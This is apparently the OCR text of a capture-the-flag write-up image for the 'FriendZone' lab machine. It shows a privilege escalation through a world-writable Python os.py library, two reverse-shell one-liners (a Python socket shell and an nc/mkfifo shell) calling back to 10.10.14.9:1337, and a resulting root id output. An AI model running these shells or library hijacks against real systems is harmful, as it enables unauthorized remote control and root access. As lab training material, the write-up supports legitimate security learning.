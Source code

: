 

#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer


friend@FriendZone:~$ find /usr -name os.py | xargs ls -lah
-rwxrwxrwx 1 root root 26K Jan 15  2019 /usr/lib/python2.7/os.py
-rw-r--r-- 1 root root 37K Sep 12  2018 /usr/lib/python3.6/os.py



kali@kali:/opt/shells/shellgen$ ./shellgen tun0 1337 py
   ___  _   _  ____  __    __    ___  ____  _  _ 
  / __)( )_( )( ___)(  )  (  )  / __)( ___)( \( )
  \__ \ ) _ (  )__)  )(__  )(__( (_-. )__)  )  ( 
  (___/(_) (_)(____)(____)(____)\___/(____)(_)\_)

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.9",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.9 1337 >/tmp/f")



id
uid=0(root) gid=0(root) groups=0(root)